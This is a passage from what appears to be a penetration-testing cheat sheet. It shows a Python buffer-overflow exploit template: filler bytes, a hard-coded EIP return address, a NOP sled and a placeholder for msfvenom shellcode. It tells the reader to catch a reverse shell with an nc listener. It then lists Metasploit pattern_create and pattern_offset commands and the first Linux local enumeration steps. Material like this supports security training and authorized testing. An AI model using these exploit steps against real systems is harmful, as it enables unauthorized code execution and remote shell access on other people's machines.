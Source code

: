 #### get the shell
Shikata Ga Nai needs some space for decoding the payload. This decoding may overwrite some of the payload, so there is need for some space for this operation (NOPs).

```python
shellcode = <OUTPUT FROM MSFVENOM>
filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
nops = "\x90" * 10

inputBuffer = filler + eip + offset + nops + shellcode
```

Now open your nc listener.
==> Congrats you got a shell!
If you break the application on ending your shell: use EXITFUNC=thread on payload generation with msfvenom


### Create unique pattern
Create a unique pattern to identify correct position for buffer overflow
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGTH>

#Alternatively:
msf-pattern_create -l <LENGTH>
```

### Find unique pattern offset
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <LENGTH> -q <PATTERN>

#Alternatively:
msf-pattern_offset -l <LENGTH> -q <PATTERN>
```



# Local Enumeration

## Local Linux Enumeration

### Gather information about current user
show username and groups of current user:
```bash
id
```

### System information/version
Show information about kernel and linux system
```bash
uname -a
```
